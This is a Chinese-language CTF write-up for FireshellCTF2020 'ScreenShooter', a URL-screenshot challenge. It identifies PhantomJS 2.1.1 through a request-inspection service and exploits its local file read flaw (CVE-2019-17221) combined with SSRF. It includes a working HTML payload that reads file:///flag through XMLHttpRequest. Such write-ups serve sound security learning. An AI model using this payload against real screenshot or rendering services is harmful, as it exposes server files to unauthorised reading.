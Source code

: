 # \[FireshellCTF2020]ScreenShooter

## \[FireshellCTF2020]ScreenShooter

## 考点

* `PhantomJS` 2.1.1任意文件读取漏洞
* SSRF

## wp

只有一个功能点，对输入的URL进行访问，然后返回截图。

比如输入百度的URL就会返回它的截图

![](../.gitbook/assets/image-20210125220405236.png)

![](../.gitbook/assets/image-20210125220422610.png)

既然是访问了这个URL，那就生成个URL让它访问，看一下返回的信息

在 https://beeceptor.com/ 上生成一个临时域名，让这个题目访问，可以看到访问的请求头

![](<../.gitbook/assets/image (4) (1) (1) (1).png>)

```
  "user-agent": "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1",
```

可以看到用的是`PhantomJS`

`PhantomJS` 2.1.1是有任意文件读取漏洞的，CVE-2019-17221。可以使用`XMLHttpRequest`和`file://`去读取本地文件，利用方式如下

1.在自己服务器上放个index.html，内容如下

```html
<!DOCTYPE html>
<html>
<head>
<title>3webdogs</title>
</head>
<body>
<script>
flag=new XMLHttpRequest;
flag.onload=function(){
    document.write(this.responseText)
};
flag.open("GET","file:///flag");
flag.send();
</script>
</body>
</html>
```

2.让题目访问 http://服务器地址/index.html 即可

![](../.gitbook/assets/image-20210125221937478.png)

最后用OCR识别一下就行了

## 小结

1. 关注CVE
